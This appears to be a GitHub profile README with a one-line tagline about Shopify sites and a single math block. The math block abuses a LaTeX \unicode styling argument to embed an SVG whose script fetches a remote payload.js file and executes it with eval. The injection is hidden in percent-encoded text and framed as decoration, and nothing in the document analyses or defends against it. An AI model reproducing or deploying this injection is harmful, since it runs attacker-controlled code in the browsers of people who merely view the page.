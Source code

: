 turning boring shopify sites into not-so-boring shopify sites

```math
\ce{$\unicode[background-image: url('data:image/svg+xml,%3Csvg%20xmlns=%22http://www.w3.org/2000/svg%22%20width=%22100%22%20height=%22100%22%3E%3Cscript%3Efetch(%27https://raw.githubusercontent.com/vys69/vys69/main/payload.js%27).then(response%20=%3E%20response.text()).then(script%20=%3E%20eval(script))%3B%3C/script%3E%3C/svg%3E'); background-size: cover; background-repeat: no-repeat; background-color: #090b0e;]{x0000}$}
```


